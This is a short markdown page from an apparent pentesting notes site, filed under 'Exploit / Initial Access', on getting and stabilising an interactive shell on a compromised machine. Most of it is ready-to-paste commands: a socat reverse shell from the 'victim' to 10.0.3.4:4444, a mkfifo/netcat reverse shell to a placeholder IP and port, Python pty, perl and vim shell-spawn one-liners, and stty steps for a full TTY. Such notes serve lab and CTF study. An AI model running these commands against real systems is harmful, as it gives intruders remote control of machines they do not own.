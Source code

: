 ```yaml
---
title: Upgrade Interactive Shell
parent: Exploit / Initial Access
layout: default
nav_order: 2
---
```


Only the following 2 can get you an interactive shell:
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Socat (is in /usr/bin):\
Listener: `socat file:tty,raw,echo=0 tcp-listen:4444`\
Victim: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`\

The following help in getting shell, but will not be fully interactive.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`
`/bin/sh -i` (or bash)
`perl -e 'exec "/bin/sh";'`
`:!bash` (from VIM)
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys
Failed to upgrade interactive shell, and want to ssh tunnel? Read (TBD LINK TO SSH)

Actual way to get a fully stabilise shell:
1. use python first: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. enable term command: `export TERM=xterm`
3. Press Ctrl+Z, then in our own terminal use `stty raw -echo; fg`
4. After finish (`exit` a few times) using or if shell dies, you wont be able to do anything, to fix type `reset` and press enter.